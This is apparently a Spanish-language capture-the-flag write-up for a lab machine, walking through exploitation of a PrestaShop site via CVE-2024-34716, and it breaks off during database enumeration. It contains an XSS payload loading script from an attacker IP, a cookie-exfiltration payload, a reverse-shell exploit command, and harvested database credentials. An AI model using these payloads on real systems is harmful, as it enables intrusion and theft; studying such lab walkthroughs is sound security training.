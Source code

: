 #XSS 
`nmap -p- --open -sS --min-rate 5000 -n -Pn -vvv 10.10.11.34 -oG allPorts`
`nmap -p22,80 -sCV 10.10.11.34 -oN targeted`
```python
22/ssh
80/http
```


`gobuster vhost -u http://trickster.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -t 200 -r --append-domain`
```js
10.10.11.34     trickster.htb shop.trickster.htb
```

Utiliza un `prestashop` que es como un Wordpress para ecomerce

Encontramos en `robots.txt` el directorio `http://shop.trickster.htb/.git/`

Usaremos la herramienta [[GITHACK]] `https://github.com/lijiejie/GitHack.git`
`python3 githack http://shop.trickster.htb/.git/`

Nos traerá toda la web a nuestra maquina y la podemos ver navegando a sus directorios
Encontramos el siguiente directorio de panel de login de Prestashop `http://shop.trickster.htb/admin634ewutrx1jgitlooaj/index.php`

Encontramos la versión y encontramos que tiene un CVE `CVE-2024-34716`
`https://ayoubmokhtar.com/post/png_driven_chain_xss_to_remote_code_execution_prestashop_8.1.5_cve-2024-34716/`

En el PoC nos explica que podemos crear un falso archivo `.png` en el cual podemos incluir contenido JavaScript que será interpretado, por lo que se acontecería un XXS
Este archivo se puede incluir en la web `http://shop.trickster.htb/contact-us`

Creamos el fichero `test.png` con el contenido `<script src="http://10.10.14.18/malicius.js"></script>`

El servicio web hace la solicitud al recurso que hemos levantado en el server de Python

Podemos probar a listar la cookie de sesión `<script src="http://10.10.14.18/?cookie=" + document.cookie></script>`

Como el HttpOnly esta en True no nos permite obtener la cookie

EN el PoC nos dice que hay que subir un tema malicioso podemos usar el repositorio `https://github.com/aelmokhtar/CVE-2024-34716` que nos lo automatiza

Este script nos automatiza todo el proceso de ejecución devolviéndonos una Reverse Shell directamente

`python3 exploit.py --url "http://shop.trickster.htb" --email test@test.com --local-ip 10.10.14.18 --admin-path admin634ewutrx1jgitlooaj
`
Obtendremos una reverse shell como el usuario
Y hacemos un tratamiento de la TTY para que podamos trabajar mas cómodamente

En nuestro directorio acctual encontramos el directoriuo de `prestashop` buscamos por archivos de configuracion `find . -name \*conf\*` y encontramos la siguiente ruta `app/config`  buscamos por archivos que contengan la plabra password `grep -r -i "password"`y encontramos un archivo llamdo `parameters.php`

Y encontramos el usuario de la base de datos `ps_user::prest@shop_o`

Nos conectamos a la base de datos con el usuario y password encontrados:
`mysql -ups_user -pprest@shop_o -D prestashop`

Al haber muchas tablas se puede filtrar de la siguiente forma
`select table_name from information_schema.columns where column_name = 'email' and table_schema = database();`

Lo que nos hace es: d3e la base de datos actual de todas las tablas muéstrame todas las columnas que contengan la palabra email

Encontramos que en la tabla de empledos es donde se encuentran todos los datos mas relevantes;




